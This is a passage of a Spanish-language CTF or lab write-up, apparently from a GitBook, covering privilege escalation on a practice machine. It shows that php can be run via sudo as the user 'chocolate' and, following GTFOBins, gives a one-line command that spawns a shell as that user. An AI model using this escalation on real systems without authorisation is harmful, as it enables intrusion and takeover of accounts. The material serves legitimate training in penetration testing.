 </div>

<div align="left">

<figure><img src="../../../.gitbook/assets/image (85).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Escalada de privilegios

Vemos que podemos ejecutar php con el usuario chocolate, vemos en GTFObins informacion sobre como escalar privilegios.

<div align="left">

<figure><img src="../../../.gitbook/assets/image (86).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

```
CMD="/bin/sh"
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

